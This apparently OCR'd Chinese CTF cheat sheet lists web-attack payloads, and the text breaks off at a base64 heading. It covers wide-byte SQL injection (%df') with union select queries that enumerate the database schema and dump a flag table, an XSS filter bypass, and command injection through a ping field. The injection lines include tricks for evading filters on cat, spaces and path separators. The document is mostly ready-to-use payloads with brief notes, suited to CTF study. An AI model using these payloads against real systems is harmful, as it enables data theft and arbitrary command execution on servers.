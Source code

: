 **宽字节注入**

```
1%df' and 1=1 --+
1%df' and 1=2 --+ 

-1%df' union select 1,2 --+
-1%df' union select 1,database() --+
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634 --+
-1%df' union select 1,flag from ctf4 --+
```

### SQL绕过思路

**单引号绕过**

* 十六进制替代
  * 0xxxxx

### XSS-bypass

```
\&#34;+confirm(1)+&#34;
```

### Ping常用命令

127.0.0.1;ls / 127.0.0.1;cat /flag

**管道符** ; 执行完前面语句再执行后面的。如ping 127.0.0.1; ls | 显示后面语句的执行结果。如ping 127.0.0.1 | ls || 前面语句出错时执行后面语句。如ping 127.0.0.1 || ls & 前面语句为假则执行后面语句。如ping 127.0.0.1 & ls && 前面语句为假则报错，为真则执行后面语句。如ping 127.0.0.1 && ls

**过滤cat**

```bash
127.0.0.1;tac flag_573386320311.php #从最后一行倒序显示内容
127.0.0.1;more flag_573386320311.php #根据窗口大小，一页一页的现实文件内容
127.0.0.1;less flag_573386320311.php
127.0.0.1;head flag_573386320311.php # 只显示头几行
127.0.0.1;tail flag_573386320311.php # 只显示最后几行
127.0.0.1;nl flag_573386320311.php # 显示时输出行号
```

**过滤空格** `< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS、$IFS$1`

**过滤目录分隔符** `;cd flag_is_here&&cat flag_128182724515598.php`

**内联绕过**

内联，就是将反引号内命令的输出作为输入执行。

?ip=127.0.0.1;cat `ls`

**base64绕过**
